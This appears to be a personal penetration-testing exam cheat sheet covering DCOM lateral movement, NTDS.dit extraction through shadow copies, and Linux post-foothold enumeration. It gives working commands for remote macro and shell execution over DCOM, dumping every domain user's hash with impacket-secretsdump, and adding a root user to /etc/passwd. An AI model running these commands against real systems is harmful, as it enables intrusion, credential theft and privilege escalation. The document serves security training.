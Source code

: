 #### DCOM 
The *Distributed Component Object Model* is a system for creating software components that interact with one another. Interaction with it is performed over RPC on TCP port 135. 

```
# create instance of Excel.Application object
$com [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "[target_workstation]"))

# copy Excel file containing VBA payload to target
$LocalPath = "C:\Users\[user]\badexcel.xls
$RemotePath = "\\[target]\c$\badexcel.xls
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

# create a SYSTEM profile - required as part of the opening process
$path = "\\[target]\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)

# open Excel file and execute macro
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```

From an elevated PowerShell prompt, we can instantiate a remote MMC (Microsoft Management Console) 2.0 application by specifying the target IP of FILES04 as the second argument of the GetTypeFromProgID method.

1. `$dcom =[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$targetIP"))`
2. `$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")`
	1. replace `/calc with whatever powershell script`

Once we execute these two PowerShell lines from CLIENT74, we should have spawned an instance of the calculator app.

#### Shadow Copies
*This technique probably won't come up on the exam and may just be a noisier version of DC Sync*
Windows SDK includes `vshadow.exe`. The goal of this attack is to abuse vshadow to extract the AD database `NTDS.dit` file. 
- As admin from DC: `vshadow.exe -nw -p C:` 
	- Take note of `Shadow copy decice name:` $ShadowCopyName
- `copy $ShadowCopyName\windows\ntds\ntds.dit c:\ntds.dit.bak`
- `reg.exe save hklm\system c:\system.bak`
- Move `ntds.dit.bak` and `system.bak` to kali
- From kali: `impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL`
- This will give use the hashes of every AD user which can now be cracked or used


## After Linux Foothold

### Enumeration 
- `id`
- `sudo -l` - what can we run using sudo
- `history` - could have some juicy details in history
- `cat /etc/passwd`
	- If you can somehow edit /etc/passwd:
	1. `openssl passwd $newPassword`
	2. `echo "$newUser:$hashAbove^:0:0:root:/root:/bin/bash" >> /etc/passwd
		1. or simply copy$hashAbove^ into `root:<this spot>:etc` within the /etc/passwd file
- `uname -a` - kernel exploits
	- `cat /etc/issue`
- `hostname`
- `ps -aux`
	- `watch -n 1 "ps -aux | grep $searchTerm$"`
- `ipconfig`